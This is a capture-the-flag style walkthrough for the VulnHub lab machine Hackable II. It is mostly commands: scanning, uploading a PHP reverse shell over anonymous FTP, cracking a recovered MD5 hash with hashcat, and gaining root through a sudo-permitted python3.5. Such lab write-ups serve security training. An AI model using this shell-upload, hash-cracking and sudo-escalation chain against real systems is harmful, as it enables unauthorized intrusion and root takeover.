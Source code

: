 # Hackable Series - Hackable II


1. Stage
   ```bash
   export IP=10.10.38.10
   ping -c 4 $IP
   mkdir -p nmap
   nmap -sC -Pn -o ./nmap/basic.txt $IP
   nmap -sC -sV -p- -o ./nmap/all_ports.txt $IP
   ```

2. Enumerrate dirs on port 80
   ```bash
   `gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt -b 301,302,400-404`
   ```

3. Stage file to send to file server
    ```bash
    curl -i -X POST $IP:80/files \
    -H "Content-Type: text/xml" \
    --data-binary "@/home/kali/Projects/vulnhub/hackable/ii/audit.php"
    ```

4. FTP put revshell  
   ```
    ftp anonymous@$IP 
    put audit.php
   ```
    `ls -al` => -`rwxr-xr-x   1 shrek shrek  1219 Nov 26  2020 .runme.sh`  
    `cat .runme.sh` => `shrek:cf4c2232354952690368f1b3dfdfb24d`

5. Brute force password 
    ```bash
        hashcat -a 0 -m 0  "cf4c2232354952690368f1b3dfdfb24d" /usr/share/wordlists/rockyou.txt  
    ```

    password cracked: **onion**

6. Escalate Privileges
   ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    su shrek 
    onion
    find / -type f -perm /400 2>/dev/null | grep /usr/bin
   ```

   ```bash
    sudo -l
        Matching Defaults entries for shrek on ubuntu:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

        User shrek may run the following commands on ubuntu:
            (root) NOPASSWD: /usr/bin/python3.5
    ```

   => `sudo /usr/bin/python3.5 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`  

   `cd /root && cat root.txt`  
   => Voila      
